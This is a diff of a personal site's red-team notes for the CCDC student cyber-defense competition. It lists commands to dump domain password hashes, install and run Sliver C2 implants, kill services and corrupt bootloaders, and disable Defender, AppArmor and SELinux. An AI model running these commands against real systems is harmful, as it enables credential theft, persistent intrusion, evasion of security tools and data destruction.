

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 2122 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated ccdc notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -88,15 +96,6 @@
 - We can now access all NTLM hashes and Kerberos keys using `impacket-secretsdump`
 	- `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`
 
-
-## Autorecon
-- Overall status: `find autorecon_results -name "*.txt" -type f -exec grep -l "open" {} \; | sort`
-- Common vulns: `grep -r "MS17-010\|CVE-\|Anonymous\|Password:" autorecon_results`
-- Anonymous access: `grep -r "Anonymous" autorecon_results`
-- Find DC: `grep -r "Domain Controller" autorecon_results`
-- Passwords: `grep -r "Password:\|Credentials:" autorecon_results`
-- Missing SMB signing: `grep -r "SMB signing required: false" autorecon_results`
-
 ## Sliver
 - Can build from source with `sudo apt install golang-go`, `curl https://sliver.sh/install | sudo bash`, and `cd sliver && make`
 - To make sure we don't kill the mf server, let's operate from a client
@@ -104,7 +103,7 @@
   - On the server: `new-operator --name {op_name} --lhost localhost` and `multiplayer` to enable clients
   - On the client, outside of tmux: `sliver-client import {config_file}` and `sliver-client` to join
 - `wg` can be used to start listening for incoming sessions on a sneaky wireguard udp (use mtls otherwise if we dont get a callback)
-  - Shells from evil-winrm seem to die (even as local admin??), use `psexec` to get a shell as nt authority and run it from there
+  - **IMPORTANT!!** `evil-winrm` implants and beacons will DIE a HORRIBLE DEATH, use another method to run the implant/beacon
 - Then, use `generate` to create implants or beacons
   - `generate --wg {our_IP} --os linux` for an implant
   - `generate beacon --wg 192.168.0.102 -j {jitter} -S {wait_seconds} --os linux`
@@ -125,7 +124,9 @@
   - Install all with `armory install all`
   - Sharphound: `sharp-hound-4 -- '-c all,GPOLocalGroup'`
 
-## Killing Services
+## Messing with Blue Team
+
+**Killing Services**
 - Soft breaks:
   - `systemctl stop {service}`
     - This is too kind, we shant do this :>
@@ -147,33 +148,36 @@
   - `timebomb.sh`
   - Corrupt bootloader partitions
 
-## Trolling
+**Trolling**
 - By far the most important part of CCDC
 - `wall "dance"`
 - Set all computers to same background:
   - GPO management > right-click domain > Create GPO in domain and link here > Right click on new GPO + edit > User Configuration\Policies\Administrative Templates\Desktop\Desktop > desktop wallpaper > select `enabled` + enter path of image and select fill for style > apply + ok > `gpupdate /force`
 
-**Defender/AppArmor/SELinux**
-- Defender:
-  - Disable with:
-    - `reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f`
-    - `gpedit.msc` > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enabled
-    - Just run all of these in powershell and defender should be lobotomized by the end:
-      - `'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All`
-      - `Set-MpPreference -DisableRealtimeMonitoring $true`
-      - `Remove-WindowsFeature Windows-Defender, Windows-Defender-GUI`
-      - `Stop-Service WinDefend -Force`
-      - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Type DWord -Force`
-      - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager" -Name "AllowAntivirus" -Value 0 -Type DWord`
-      - Then reboot
-  - Bypassing with FilelessPELoader:
-    - `https://github.com/SaadAhla/FilelessPELoader`
-- AppArmor:
-  - `sudo systemctl stop apparmor`, `sudo systemctl disable apparmor`, `sudo apt purge apparmor`
-- SELinux:
-  - Status with `sestatus`
-  - Temp disable: `sudo setenforce 0` or `sudo setenforce permissive`
-  - Permanent disable: set `SELINUX=enforcing` to `disabled` in `/etc/selinux/config` and reboot
+## Dealing with System Protections
+
+**Defender**
+- Disable with:
+  - `reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f`
+  - `gpedit.msc` > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enabled
+  - Just run all of these in powershell and defender should be lobotomized by the end:
+    - `'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All`
+    - `Set-MpPreference -DisableRealtimeMonitoring $true`
+    - `Remove-WindowsFeature Windows-Defender, Windows-Defender-GUI`
+    - `Stop-Service WinDefend -Force`
+    - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -Type DWord -Force`
+    - `Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Policy Manager" -Name "AllowAntivirus" -Value 0 -Type DWord`
+    - Then reboot
+- Bypassing with FilelessPELoader:
+  - `https://github.com/SaadAhla/FilelessPELoader`
+
+**AppArmor**
+- `sudo systemctl stop apparmor`, `sudo systemctl disable apparmor`, `sudo apt purge apparmor`
+
+**SELinux**
+- Status with `sestatus`
+- Temp disable: `sudo setenforce 0` or `sudo setenforce permissive`
+- Permanent disable: set `SELINUX=enforcing` to `disabled` in `/etc/selinux/config` and reboot
 
 
 ## Misc
```
Also changed, not shown: other parts of markdown/RedTeamingCCDC.md (+8 -0 lines).
